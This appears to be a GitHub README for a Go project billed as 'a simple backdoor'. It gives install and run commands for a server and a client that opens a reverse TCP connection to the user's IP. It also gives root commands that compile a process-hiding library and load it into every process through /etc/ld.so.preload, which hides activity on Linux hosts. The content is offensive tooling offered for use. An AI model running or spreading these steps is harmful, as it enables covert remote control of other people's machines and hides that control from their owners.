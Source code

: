 <p align="center">
  <img src="https://vsoch.github.io/assets/images/posts/learning-go/gophercises_jumping.gif" width="420" height="440">
</p>

  	                A Simple Backdoor Written in Go

---

<p align="center">
	How to Install?
</p>

```bash
git clone https://github.com/T0k1To/IaidoProject
```
---

<p align="center">
	Server Usage:
</p>

```bash
cd IaidoProject
```
```bash
go run IaidoSV.go
```
---

<p align="center">
	Client Usage:
</p>

```bash
cd IaidoProject
```
```bash
cd bin
```
```bash
./Iaido
```
- Wait to load and insert your ip to receive the reverse tcp connection and enjoy =]
---

<p align="center">
	What is processhider.c?
</p>

```This is a simple C code to hide a process in Linux using ld preloader by Gianluca Borello!```

<p align="center">
	processhider.c Usage:
</p>

`With root proceed:`

```bash
cd IaidoProject
```
```bash
make
```
```bash
sudo mv libprocesshider.so /usr/local/lib/
```
```bash
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

- References and Credits:
  - https://sysdig.com/blog/hiding-linux-processes-for-fun-and-profit/

  - https://github.com/gianlucaborello/libprocesshider

---
